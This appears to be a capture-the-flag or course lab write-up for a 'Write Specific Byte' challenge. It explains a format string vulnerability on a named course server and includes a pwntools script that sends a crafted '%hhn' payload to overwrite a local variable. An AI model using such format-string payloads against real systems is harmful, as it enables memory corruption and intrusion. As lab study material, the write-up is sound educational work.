 # Challenge `Write Specific Byte` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23195
- Impact:
  - Allows user to alter local variable

## Steps to reproduce

1. Using `gdb` we can verify that `target` is stored in memory address `0x804c044`
2. This value is compared to `0xff` (255 in decimal) in a bitwise `AND` operation, and must return 2. The value 254 can be used

The code used was the following:

```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23195, timeout=100)
target = 0x804c044 + 0x3
s.sendline(p32(target) + b"%254x%7$hhn")
print(s.recvall())
```